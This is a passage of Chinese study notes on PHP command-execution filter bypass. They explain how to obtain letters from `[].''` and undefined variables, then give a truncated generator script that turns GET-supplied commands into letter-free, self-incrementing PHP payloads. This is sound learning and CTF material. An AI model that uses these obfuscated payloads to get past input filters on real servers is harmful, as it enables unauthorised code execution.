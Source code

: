 ```php
<?php
$_=[].''; 
echo $_[$__];
	输出A
```

原理是\$_=[]的值是Array，但是它本身是不能通过中括号取出第一个字符A的，所以通过 . 来拼接一个空字符串，来将其转化为字符串，从而能够通过$\_[0]来取出A，然后由于0也被过滤无法使用，通过不存在的变量来实现0，\$__这个变量没有被定义而直接被使用，其值为0

![image-20240316153216860](PHP命令执行.assets/image-20240316153216860.png)

![image-20240316153456367](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20240316153456367.png)

这是生成脚本

```php
<?php
highlight_file(__FILE__);
$cmd = strtoupper($_GET['cmd']);
$cmd2 = strtoupper($_GET['post']);
function POC($cmd){
    $i = 0;
    $POC_pat1 = "\$__=\$___;";
    $POC_pat2 = "\$_ .=\$__;";
    while ($i<strlen($cmd)){
        $str1 = $cmd[$i];
        $POC1 = base_convert(bin2hex($str1),16,10)-base_convert(bin2hex("A"),16,10);
        if ($i<1) {
            $POC_pat3 = str_repeat("++\$__;",$POC1);
            echo $POC_pat3;
        }else{
            $str2 = $cmd[$i-1];
            if($str1==$str2){
                $POC_pat5 = $POC_pat2;
                echo $POC_pat5;
            }else{
                $POC_pat6 = $POC_pat1.str_repeat("++\$__;",$POC1).$POC_pat2;
                echo $POC_pat6;
            }
        }
        $i++;
    }
}

function POC2($cmd){
    $i = 0;
    echo '$____ = "_";$__=$___;';
    $POC_pat1 = "\$__=\$___;";
    $POC_pat2 = "\$____ .=\$__;";
    while ($i<strlen($cmd)){
        $str1 = $cmd[$i];
        $POC1 = base_convert(bin2hex($str1),16,10)-base_convert(bin2hex("A"),16,10);
        if ($i<1) {
            $POC_pat3 = str_repeat("++\$__;",$POC1).$POC_pat2;
```